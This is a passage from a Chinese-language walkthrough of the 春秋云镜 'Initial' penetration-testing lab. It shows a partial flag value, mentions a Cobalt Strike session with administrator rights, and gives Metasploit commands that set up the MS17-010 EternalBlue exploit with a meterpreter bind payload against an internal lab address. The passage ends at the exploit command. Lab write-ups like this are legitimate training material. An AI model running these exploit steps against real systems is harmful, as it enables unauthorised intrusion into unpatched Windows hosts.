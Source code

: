 ![image-20230725174441045](img/春秋云镜-Initial/image-20230725174441045.png)

```
flag02: 2ce3-4813-87d4-
```

提示打域，这里上线cs，而且是管理员权限

![image-20230725174536090](img/春秋云镜-Initial/image-20230725174536090.png)

## ms17_010

这里我代理到物理机，物理机装了个msf，然后就用msf打。

刚才扫描看到了ms17-010，用msf打msf17-010

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] Using configured payload windows/x64/meterpreter/bind_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tcp_uuid
payload => windows/x64/meterpreter/bind_tcp_uuid
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 172.22.1.21
RHOSTS => 172.22.1.21
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
```
